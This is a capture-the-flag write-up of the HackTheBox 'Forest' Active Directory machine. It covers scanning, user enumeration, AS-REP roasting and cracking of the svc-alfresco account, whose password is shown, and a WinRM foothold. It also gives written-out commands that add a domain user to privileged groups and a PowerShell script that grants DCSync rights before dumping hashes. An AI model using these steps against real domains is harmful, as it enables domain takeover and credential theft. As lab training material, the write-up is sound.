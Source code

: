 #  Forest - HackTheBox WriteUp

![info_card](/images/forest/info_card.png)

## Enumeration & Information Gathering 

#### Scanning

```
Full TCP Nmap Scan:
PORT      STATE SERVICE      REASON          VERSION
53/tcp    open  domain?      syn-ack ttl 127
88/tcp    open  kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2020-03-11 19:16:21Z)
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?    syn-ack ttl 127
593/tcp   open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped   syn-ack ttl 127
3268/tcp  open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped   syn-ack ttl 127
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       syn-ack ttl 127 .NET Message Framing
47001/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49671/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49676/tcp open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49684/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49706/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49908/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
```

#### Smb Enumeration

enum4linux 10.10.10.161. The following users were identified:

```
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```


## Exploitation

Doing a bit of cleanup to obtain only the usernames and trying all the users with Impacket GetNPUsers.py


![getnpusers1](/images/forest/getnpusers1.png)

![getnpusers2](/images/forest/getnpusers2.png)


We obtain the hash for user svc-alfresco.

Password crack with Hashcat:


![crack_svc_alfresco](/images/forest/crack_svc_alfresco.png)

#### Foothold

Trying to authenticate using evilwin-rm with credentials svc-alfresco:s3rvice

![auth_alfresco](/images/forest/auth_alfresco.png)

#### Post Exploitation Enumeration

Running Sherlock brought NO luck
 and nothing juicy from WinPeas output.

Couldn't run systeminfo in order to try windows-exploit-sugester

After realising that we are dealing with AD here, bloodhound seems a logical way to go check for privilege escalation.

We download and run Sharphound.ps1 to our victim.

Running bloodhound on our host system

```
apt install bloodhound

neo4j console 

bloodhoud
```

and uploading the output from the victim:

![hound_out](/images/forest/hound_out.png)

This shows that we have a path to Administrator from our svc-alfresco user.

The WriteDacl permissions on svc-alfresco seen from the below screenshot will make it possible to grant DCSync rights to a user and then be then we can further dump the Administrator password.


![hound_out](/images/forest/hound_out2.png)

Searching on google we find many articles related to **Exchange Windows Permissions Privilege escalation.**

## Privilege Escalation

After failing with Privexchange and AclPWN ( note: at this point I was trying to escalate directly with my first user "svc-alfresco")

This this git page appeared to have exactly what was needed.
[github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md) 

Add new user: 

`net user chris password1 /ADD /DOMAIN
`

Add user to Remote Management group ( to allow remote 
connections using WinRM/EvilWinRM): 

`net localgroup "Remote Management Users" /add chris
`

Add user to group "Exchange Windows Permissions": 

`net group "Exchange Windows Permissions" 
`

Add user to group "Organization Management(suggested in the article)": 

`net group "Organization Management" /add chris
`

Then follow the script as user chris:

But first import powerview.ps1 in order to leverage cmdlets get-acl and set-acl from AD


```
$acl = get-acl "ad:DC=htb,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
# rightsGuid for the extended right Ds-Replication-Get-Changes
$objectguid = new-object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=htb,DC=local"
```

Then Secrets Dump:

![sec_dump](/images/forest/sec_dump.png)


Authentication with the hash and root flag:


![root_auth_n_flag.png](/images/forest/root_auth_n_flag.png)


**Extra:** 

The machine had PowerView.ps1, a users.txt and revert.ps1 used for reversing the state of the machine for the svc-alfreco account permissions

Top 5 References:

1.	https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md
2.	https://github.com/dirkjanm/privexchange/
3.	https://github.com/fox-it/Invoke-ACLPwn
4.	https://spookysec.net/2019-12-01-domain-controller-sync/
5.	https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync

Failed attempts:

* https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/
* https://www.andreafortuna.org/2019/01/30/abusing-microsoft-exchange-for-privilege-escalation-any-user-may-obtain-domain-admin-privileges/
* https://www.theregister.co.uk/2019/01/25/microsoft_exchange_domain_admin_eop/

Likely due to the fact that I was testing with the active user svc-alfresco

Thanks for reading!

<img src="https://www.hackthebox.eu/badge/image/206328" alt="Hack The Box">

